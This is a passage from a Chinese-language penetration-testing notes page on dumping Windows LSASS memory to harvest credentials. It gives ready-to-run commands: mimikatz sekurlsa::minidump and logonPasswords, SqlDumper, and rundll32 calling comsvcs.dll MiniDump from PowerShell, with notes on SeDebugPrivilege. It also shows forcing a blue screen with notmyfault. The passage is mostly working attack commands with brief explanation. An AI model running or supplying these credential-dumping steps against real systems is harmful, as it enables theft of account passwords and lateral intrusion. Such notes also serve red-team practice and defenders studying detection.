 mimikatz 加载 dump 文件
```bash
sekurlsa::minidump debug480
sekurlsa::logonPasswords full
```

还有一些工具
- SqlDumper
    ```bash
    tasklist /svc | findstr lsass.exe  # 查看lsass.exe 的PID号
    # 或powershell 下
    Get-Process lsass

    Sqldumper.exe ProcessID 0 0x01100  # 导出mdmp文件
    ```

### ComSvcs.dll

使用 `C:\windows\system32\comsvcs.dll` 的导出函数 MiniDump 能够 dump 指定进程的内存文件

在 dump 指定进程内存文件时，需要开启 SeDebugPrivilege 权限, 管理员权限的 cmd 下，默认支持 SeDebugPrivilege 权限，但是状态为 Disabled

直接在 cmd 下执行 rundll32 的命令尝试 dump 指定进程内存文件时，由于无法开启 SeDebugPrivilege 权限，所以会失败, 管理员权限的 powershell 下，默认支持 SeDebugPrivilege 权限，并且状态为 Enabled

所以可以通过 powershell 执行 rundll32 的命令实现

```powershell
Get-Process lsass
powershell -c "rundll32 C:\windows\system32\comsvcs.dll, MiniDump 516 C:\lsass.dmp full"
```

### windbg 中载入 mimilib 模块

可通过 notmyfault 强制蓝屏
- https://docs.microsoft.com/en-us/sysinternals/downloads/notmyfault
    ```
    notmyfault64.exe -accepteula /crash
    ````

    ![](../../../assets/img/Security/安全工具/mimikatz/16.png)
